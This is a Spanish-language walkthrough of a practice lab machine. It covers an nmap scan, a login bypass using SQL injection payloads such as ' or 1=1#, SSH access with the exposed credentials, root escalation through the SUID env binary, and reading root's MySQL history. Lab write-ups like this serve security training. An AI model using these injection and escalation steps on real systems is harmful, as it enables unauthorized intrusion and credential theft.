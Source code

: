 # Herramientas

# 1. Escaneo
Se hace un escaneo con nmap en todos los puertos de la IP y se encuentra esto:
 ```bash
 nmap -p- 172.17.0.3                                                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:19 -04  
Nmap scan report for 172.17.0.3  
Host is up (0.0000020s latency).  
Not shown: 65533 closed tcp ports (reset)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
MAC Address: 42:58:C9:17:41:E7 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
 ```

Nos metemos a la página ingresando la IP en el navegador y nos encontramos con un apartado para ingresar las credenciales. Probamos una inyección SQL sencilla `' or 1=1--`, pero no funciona, así que probamos con una variación de este comando `' or 1=1#` y cualquier contraseña.
![[Pasted image 20250714102324.png]]

Al ingresar las credenciales, nos muestra esto:
![[Pasted image 20250714102352.png]]

Tenemos el usuario y la contraseña, por lo que procedemos a probar con el SSH usando estas credenciales.
```bash
ssh dylan@172.17.0.3                     
The authenticity of host '172.17.0.3 (172.17.0.3)' can't be established.  
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.  
This key is not known by any other names.  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '172.17.0.3' (ED25519) to the list of known hosts.  
dylan@172.17.0.3's password:    
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.12.33+kali-amd64 x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/pro  
  
This system has been minimized by removing packages and content that are  
not required on a system that users do not log into.  
  
To restore this content, you can run the 'unminimize' command.  
  
The programs included with the Ubuntu system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by  
applicable law.  
  
dylan@455005d6ecad:~$
```

Como podemos ver, logramos acceder a la máquina. Ahora podemos hacer un escalado de privilegios buscando binarios con permisos SUID.
```bash
find / -perm -4000 -user root 2>/dev/null  
/usr/bin/newgrp  
/usr/bin/env  
/usr/bin/mount  
/usr/bin/su  
/usr/bin/chsh  
/usr/bin/chfn  
/usr/bin/umount  
/usr/bin/gpasswd  
/usr/bin/passwd  
/usr/lib/openssh/ssh-keysign  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

En la página https://gtfobins.github.io/gtfobins/env/ podemos ver que podemos probar con:

```bash
env /bin/sh
```

Pero esto lo debemos adaptar a nuestro entorno, por lo que el comando quedaría así:
```bash
/usr/bin/env /bin/bash -p

whoami
root
```

Finalmente, nos aseguramos de que somos root con el comado `whoami`.

Podemos dirigirnos al historial de mysql de root de esta forma:
```
cd ../../root
cat .mysql_history

_HiStOrY_V2_  
ALTER\040USER\040'root'@'localhost'\040IDENTIFYED\040BY\040'paso';  
ALTER\040USER\040'root'@'localhost'\040IDENTIFIED\040BY\040'paso';  
FLUSH\040PRIVILEGES;  
CREATE\040DATABASE\040register;  
use\040register;  
CREATE\040TABLE\040users\040(username\040VARCHAR(30)\040PRIMARY\040KEY,\040passwd\040VARCHAR(30))  
;  
insert\040users\040(username,passwd)\040VALUES\040('mario','mario');\040  
use\040register;  
show\040tables  
;  
select\040*\040from\040users;  
show\040databases;  
use\040register;  
show\040tables;  
select\040*\040from\040users;  
show\040databases  
;  
use\040register;  
show\040tables;  
select\040*\040from\040users;  
UPDATE\040nombre_de_tabla\040SET\040username\040=\040'dylan',\040passwd\040=\040'KJSDFG789FGSDF78'\040WHERE\04  
0username\040=\040'mario'\040AND\040passwd\040=\040'mario';  
UPDATE\040users\040SET\040username\040=\040'dylan',\040passwd\040=\040'KJSDFG789FGSDF78'\040WHERE\040username\  
040=\040'mario'\040AND\040passwd\040=\040'mario';  
select\040*\040from\040users;
```

Aquí podemos encontrar una credencial más que es de mario con contraseña mario. Como no hay un puerto 3306 abierto, consideramos terminada la máquina.